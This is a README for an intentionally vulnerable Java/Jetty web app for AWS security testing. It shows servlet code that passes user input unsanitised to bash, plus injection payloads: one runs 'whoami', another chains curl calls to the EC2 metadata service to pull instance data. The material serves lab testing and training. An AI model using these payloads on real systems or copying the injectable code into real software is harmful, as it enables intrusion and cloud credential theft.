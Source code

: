 # Vulnerable Java Webapp

A simple java based webapp which contains a code injection vulnerability. 
 

## Table of Contents

- [Features](#features)
- [Installation](#installation)
- [Usage](#usage)
- [License](#license)

## Features

I needed a simple app for security testing in AWS, in Java.
The premise is a simple "is it up" type app, which executes a ping in the background.

- Simple stand alone application
- Uses jetty for simple setup
- Includes command injection vulnerability
- Can be leverged to SSRF in an AWS environment, for example to gather data from the AWS metadata service
- appspec and buildspec installedif you'd like to deploy using a code pipeline in AWS

## Installation

Clone the repo and ensure you have maven installed.
If deploying in aws I recommend deploying to an amazon linux instance (this is where I tested it), but Ubuntu should work too.


## Usage

Either use the app as standalone with `mvn jetty:run` or deploy as part of an AWS code pipeline.

Note that AWS requires some specific syntax to invoke long running commands as part of a deployment, hence the
`mvn jetty:run> /dev/null 2> /dev/null < /dev/null &` in start.sh


## Exploitation


**Code execution:**
Example exploitation- 
```google.com && whoami```


**SSRF exploit:**
Example exploitation- 
```google.com && TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"` && curl -H "X-aws-ec2-metadata-token: $TOKEN" -v http://169.254.169.254/latest/meta-data/ > output && cat output```



## Vulnerabilty 
The vulnerable code is within CommandExecutorServlet.java, where we accept unsantized user input:

```
if (command != null && !command.isEmpty()) {
  // Modify the command to include "ping -c 4" and the user-provided command
  String fullCommand = "ping -c 4 " + command;

  // Execute the command (handle security and sanitization here)
  String result = executeCommand(fullCommand);
```

And then pass it to bash....
`Process process = new ProcessBuilder("/bin/bash", "-c", command).start();`



